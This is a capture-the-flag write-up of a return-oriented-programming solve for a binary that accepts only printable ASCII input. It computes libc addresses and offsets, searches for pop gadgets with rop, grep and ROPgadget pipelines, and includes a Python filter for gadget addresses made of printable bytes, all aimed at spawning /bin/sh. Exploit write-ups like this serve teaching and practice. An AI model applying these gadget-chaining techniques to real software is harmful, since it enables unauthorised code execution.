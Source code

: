 # Solve Process
My first thought was: "Oh! We know the address of libc! All we need is to call system with /bin/sh."

But wait... 0x5555e000 will always not be possible to input with printable ascii chars only. Maybe there are some functions within libc that are in our disposal? hopefully, system?


`gdb-peda$ print &system
$1 = (<text variable, no debug info> *) 0x3eed0 <system>`
 0x5555e000+0x3eed0= 0x5559CED0 fuck. It seems the author intentionally prevented us access to the system function

```bash
rop ascii_easy | grep "pop edi" | awk '{print $1}'  > pop_edi_addr.txt
```
first run this command, to see if we have some printable pop edi gadgets. 

Right, so the entire .text section starts with 0x80, which pretty much gurantees we won't have any ascii-addresses gadgets here.

Maybe we can try to call an arbitrary location before system:
`
0x5559CED0-0x5F61 = 0x55596F6F
`
`
0x3eed0 -0x5F61 = 0x38F6F
`

Inputting that into IDA we find:

`
text:00038F6E                 mov     ebp, [eax+24h]
`

Which means this will be loaded at `0x55596F6E`.


Now we need to satisfy the condition

```bash

rop libc-2.15.so | grep "pop ebx" | awk '{print $1}'

```
Wayyyy too many gadgets to manually check if they are ascii-satisfiable, so we'll make a python program and pipe them with xargs.

```python
import sys

def is_ascii(byte):
    return 0x20 <= byte <= 0x7F

def main():
    if(len(sys.argv) <2):
        print(f"usage python {sys.argv[0]} <ascii_num>")
        exit(1)
    # Input string with ASCII number
    input_hex = sys.argv[1]# Change this to test different inputs

    # Convert input hex string to an integer
    number = int(input_hex, 16)

    # Add 0x5555e000
    result = number + 0x5555e000

    # Convert result to bytes
    result_bytes = result.to_bytes((result.bit_length() + 7) // 8, byteorder='big')

    if all(is_ascii(byte) for byte in result_bytes):
        print(f"Received value: {hex(result)}")  # Print the result in hexadecimal format

if __name__ == "__main__":
    main()
```

```bash
rop libc-2.15.so | grep "pop ebx" | awk '{print $1}' | xargs -I {} python is_ascii.py {}
```


[!NOTE] Only after making the script, I realized ropgadget had some useful options exactly for this:

```bash
ROPgadget --binary libc-2.15.so --offset 5555e000 --badbytes "00-20|80-ff"| grep -F "$1" | awk '{print $1}'
```

Oh well. Always read the documenation I suppose.
